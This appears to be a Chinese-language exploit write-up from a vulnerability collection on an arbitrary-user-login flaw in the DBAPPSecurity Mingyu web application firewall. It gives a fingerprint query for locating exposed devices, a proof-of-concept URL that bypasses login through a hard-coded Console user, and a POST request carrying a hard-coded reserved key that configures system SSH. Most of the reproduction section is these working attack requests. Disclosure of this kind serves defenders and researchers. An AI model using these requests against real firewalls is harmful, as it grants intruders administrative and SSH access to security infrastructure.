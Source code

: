 # 安恒 明御WEB应用防火墙 report.php 任意用户登录漏洞

# 安恒 明御WEB应用防火墙 report.php 任意用户登录漏洞

## 漏洞描述

安恒 明御WEB应用防火墙 report.php文件存在硬编码设置的Console用户登录，攻击者可以通过漏洞直接登录后台

## 漏洞影响

```
安恒 明御WEB应用防火墙
```

## 网络测绘

```
app="安恒信息-明御WAF"
```

## 漏洞复现

登录页面

![image-20220824142132930](/images/202208241421007.png)

验证POC

```
/report.m?a=rpc-timed
```

![image-20220824142150382](/images/202208241421426.png)

再访问主页面跳转配置页面

![image-20220824142208002](/images/202208241422055.png)

发送请求包配置系统SSH等

```
POST /system.m?a=reserved
  
key=!@#dbapp-waf-dev-reserved#@!
```

![image-20220824142219609](/images/202208241422661.png)


